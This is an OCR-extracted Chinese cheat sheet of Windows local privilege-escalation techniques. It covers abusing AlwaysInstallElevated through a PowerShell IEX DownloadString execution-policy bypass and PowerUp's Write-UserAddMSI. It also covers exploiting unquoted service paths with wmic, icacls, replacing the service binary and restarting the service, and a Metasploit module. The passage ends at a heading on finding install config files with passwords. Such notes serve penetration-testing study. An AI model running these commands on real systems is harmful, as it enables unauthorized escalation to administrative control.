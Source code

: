 #### 注册表键AlwayslnstallElevated

- 检测注册表键是否被设置

```
powershell.exe -nop -exec bypass IEX (New-Object Net.Webclient).DownloadString("c:/powerupps1");Get-RegisterAlwaysInstallElevated 
```

- 生成MSI文件

```
Write-UserAddMSI
```
 
- 普通权限运行MSi文件


#### 可信任服务路径漏洞
 
 - 检测漏洞

 ```
 wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v    """
```

- 检测是否有可写权限

```
icacls 

everyone 完全控制权限（所有用户都有修改这个文件的权限）
M 修改
F 完全控制
CI 丛属容器将继承访问控制项
OI 从属文件将继承访问控制项
```
 
- 重启服务

```
恶意文件重命名上传

sc stop service_name
sc start service_name
```

- MSF模块

```
exploit/windows/local/trusted_service_path

set AutoRunScript migrate -f 自动迁移
```

#### 自动安装配置文件

>可能包含用户名密码

- 搜索配置文件
